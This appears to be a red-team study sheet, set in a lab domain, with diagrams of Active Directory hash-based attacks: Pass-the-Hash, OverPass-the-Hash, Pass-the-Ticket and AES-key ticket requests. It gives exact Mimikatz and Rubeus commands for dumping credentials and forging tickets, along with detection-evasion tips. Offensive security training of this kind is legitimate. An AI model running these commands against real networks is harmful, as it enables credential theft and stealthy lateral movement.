


# Pass-the-Hash & OverPass-the-Hash — Hash-Based Authentication

## Attack Path

```mermaid
flowchart TD
    START(["🔑 NTLM Hash obtained\n(any method)"])

    subgraph obtain["How NTLM Hashes Are Obtained"]
        H1["Mimikatz / SafetyKatz\nsekurlsa::logonpasswords\n→ NTLM from LSASS memory"]
        H2["lsadump::sam\n→ Local account hashes\nfrom SAM database"]
        H3["lsadump::dcsync\n→ Any domain account hash\nvia DC replication rights"]
        H4["lsadump::lsa /patch\n→ All cached domain hashes\nincluding DSRM account"]
        H5["secretsdump.py (Impacket)\nRemote SAM/NTDS dump"]
    end

    subgraph pth["Path A: Pass-the-Hash (PTH)"]
        P1["Use NTLM hash directly\nfor NTLM authentication\nNo Kerberos ticket needed"]
        P2["Mimikatz sekurlsa::pth\nsekurlsa::pth /user:Administrator\n/domain:dollarcorp.moneycorp.local\n/ntlm:HASH /run:powershell.exe"]
        P3["New process spawns\nwith impersonated identity\nusing hash for NTLM auth"]
        P4["Use for:\nSMB access: dir \\\\target\\c$\nPsExec: PsExec.exe \\\\target cmd\nWinRM: Enter-PSSession"]
        P5["✅ Lateral movement\nusing NTLM hash"]
    end

    subgraph opth["Path B: OverPass-the-Hash (OPtH)"]
        O1["Convert NTLM hash\nto Kerberos TGT\n(more stealthy - uses Kerberos)"]
        O2["Rubeus asktgt\nRubeus.exe asktgt\n/user:svcadmin\n/rc4:NTLM_HASH\n/domain:dollarcorp.moneycorp.local\n/dc:dcorp-dc /ptt"]
        O3["OR Mimikatz\nsekurlsa::pth /user:svcadmin\n/ntlm:HASH /domain:dollarcorp\n/run:powershell.exe\n(then klist shows TGT)"]
        O4["Kerberos TGT injected\ninto current session"]
        O5["Use Kerberos for auth\nwinrs, PSRemoting, WMI\nLess NTLM traffic (more OPSEC)"]
        O6["✅ Kerberos-based\nlateral movement"]
    end

    subgraph ptt["Path C: Pass-the-Ticket (PtT)"]
        T1["Steal existing Kerberos ticket\nfrom LSASS memory\nRubeus.exe dump /service:krbtgt\nMimikatz sekurlsa::tickets /export"]
        T2["Inject into current session\nRubeus.exe ptt /ticket:BASE64\nOR kerberos::ptt ticket.kirbi"]
        T3["Use injected ticket\nfor service access\nNo hash needed"]
        T4["✅ Ticket-based\nlateral movement"]
    end

    subgraph aes["Path D: AES Key (OPSEC preferred)"]
        AES1["AES256 key from Mimikatz\nsekurlsa::ekeys\n→ aes256_hmac value"]
        AES2["Rubeus asktgt with AES\nRubeus.exe asktgt /user:svcadmin\n/aes256:AES_KEY /ptt\n(no RC4 downgrade - less detectable)"]
        AES3["✅ Kerberos TGT\nwith AES encryption\nHarder to detect"]
    end

    START --> H1 & H2 & H3 & H4 & H5
    H1 & H2 & H3 & H4 --> P1 --> P2 --> P3 --> P4 --> P5
    H1 & H3 --> O1 --> O2 & O3 --> O4 --> O5 --> O6
    H1 --> T1 --> T2 --> T3 --> T4
    H1 --> AES1 --> AES2 --> AES3

    style START fill:#4CAF50,color:#fff
    style P5 fill:#FF9800,color:#fff
    style O6 fill:#FF9800,color:#fff
    style T4 fill:#FF9800,color:#fff
    style AES3 fill:#2196F3,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((Hash-Based Auth))
    Hash Sources
      LSASS memory
        sekurlsa::logonpasswords
        SafetyKatz / Mimikatz
      SAM database
        lsadump::sam
        Local accounts only
      DCSync
        lsadump::dcsync
        Any domain account
      LSA secrets
        lsadump::lsa /patch
        Cached domain hashes
    Pass-the-Hash
      Protocol: NTLM
      Tool: sekurlsa::pth
      Spawns process with hash
      Use for SMB/WinRM/PsExec
      Detection: NTLM in logs
    OverPass-the-Hash
      Protocol: Kerberos
      Convert NTLM to TGT
      Rubeus asktgt /rc4
      More OPSEC than PTH
      Kerberos events only
    Pass-the-Ticket
      Steal existing TGT/TGS
      Rubeus dump /export
      sekurlsa::tickets /export
      Inject: Rubeus ptt
      No hash needed
    AES Key (Best OPSEC)
      sekurlsa::ekeys
      aes256_hmac value
      Rubeus /aes256 flag
      No RC4 downgrade
      Hardest to detect
```
